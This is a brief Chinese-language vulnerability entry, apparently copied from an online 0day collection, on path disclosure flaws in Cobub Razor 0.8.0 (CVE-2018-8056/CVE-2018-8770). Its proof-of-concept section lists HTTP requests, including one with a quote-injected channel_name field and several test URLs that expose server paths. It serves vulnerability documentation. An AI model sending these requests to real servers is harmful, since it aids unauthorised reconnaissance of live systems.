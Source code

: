 # （CVE-2018-8056/CVE-2018-8770）Cobub Razor 0.8.0 存在物理路径泄露漏洞

> 原文：[http://book.iwonder.run/0day/Cobub Razor/1.html](http://book.iwonder.run/0day/Cobub Razor/1.html)

## 一、漏洞简介

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

> 方法一：

```
URL: http://localhost/export.php
HTTP Method: GET
URL: http://localhost/index.php?/manage/channel/addchannel
HTTP Method: POST
Data: channel_name=test"&platform=1 
```

> 方法二： Cobub Razor 0.8.0 存在物理路径泄露漏洞，当访问特定 url 时，系统会显示物理路径信息。Cobub Razor 是一个在 github 上开源的系统。

```
HTTP Method: GET
http://localhost/tests/generate.php
http://localhost/tests/controllers/getConfigTest.php
http://localhost/tests/controllers/getUpdateTest.php
http://localhost/tests/controllers/postclientdataTest.php
http://localhost/tests/controllers/posterrorTest.php
http://localhost/tests/controllers/posteventTest.php
http://localhost/tests/controllers/posttagTest.php
http://localhost/tests/controllers/postusinglogTest.php
http://localhost/tests/fixtures/Controller_fixt.php
http://localhost/tests/fixtures/Controller_fixt2.php
http://localhost/tests/fixtures/view_fixt2.php
http://localhost/tests/libs/ipTest.php
http://localhost/tests/models/commonDbfix.php 
```

